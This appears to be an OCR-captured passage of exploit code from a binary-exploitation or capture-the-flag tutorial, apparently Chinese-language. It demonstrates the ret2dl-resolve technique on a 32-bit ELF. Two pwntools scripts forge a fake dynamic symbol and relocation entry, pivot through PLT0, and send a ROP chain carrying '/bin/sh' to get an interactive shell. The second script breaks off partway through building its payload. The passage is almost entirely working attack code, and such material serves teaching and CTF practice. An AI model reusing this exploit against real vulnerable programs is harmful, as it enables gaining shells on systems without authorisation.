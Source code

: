 ```python
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
fake_write_sym = flat([0x4c, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

非ROP模块版：

```python
...
cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x08048330
index_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = 0x4c
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
```
